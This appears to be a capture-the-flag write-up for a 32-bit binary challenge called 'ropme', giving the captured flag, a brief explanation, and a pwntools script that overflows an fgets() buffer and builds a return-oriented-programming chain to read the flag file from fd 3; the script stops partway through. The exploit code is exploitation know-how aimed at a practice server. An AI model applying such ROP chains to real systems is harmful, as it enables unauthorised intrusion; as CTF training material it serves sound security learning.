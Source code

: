 # ropme

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNi1yb3BtZSIsImlwIjoiMjAyLjg3LjE2Mi4yOCIsInNlc3Npb24iOiJlOTUzZmNlYi05MDE4LTRmMjMtYjg1NS0wM2U4OWQ3OTVhMjkifQ.qad7sr0cH0qA646PxJYZFLv2h86RyaYu7HaD1N4yWpM}

## Scenario

The binary has a vulnerable `fgets()` function; however there are few gadgets that were found which would allow us to create an `execve("/bin/sh", ...)` call. There are also few gadgets which allow us to easily manipulate the `eax`, `ecx` and `edx` registers. The flag file is however opened at `fd 3`...

## Solution

Using the `read` and `write` syscalls, we can write from the flag (`fd 3`) into a buffer located at `ecx`. Thankfully `ecx` contains the buffer used in and returned from `fgets()`. The flag can then be written out from the buffer to `stdout` (`fd 1`).

## Script

```python3
from pwn import *

'''
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
'''

"""
fgets(ebp-0x8, 0x539, stdin)
"""

# p = process("./ropme")
p = remote("plsdonthaq.me", 6004)


'''
0x08048379: pop ebx; ret; 
0x080484ef: xor edx, edx; ret; 
0x08048500: mov eax, edx; mov ebx, edx; ret; 
0x080484f2: int 0x80; ret; 
'''

payload = b""
payload += b'.' * (0x8+4)

payload += p32(0x08048362) * 30 # ret;    create 30*4=120 spare bytes to use in addition to the buffer

# Read
# eax = 3 (read)
# ebx = 3 (fd)
# ecx :: ptr to buffer
# edx = 120
payload += p32(0x080484ef)        # xor edx, edx; ret; 
payload += p32(0x08048505) * 3    # inc edx; ret; * 3
payload += p32(0x08048500)        # mov eax, edx; mov ebx, edx; ret; 
payload += p32(0x08048505) * 117  # inc edx; ret; * 117
```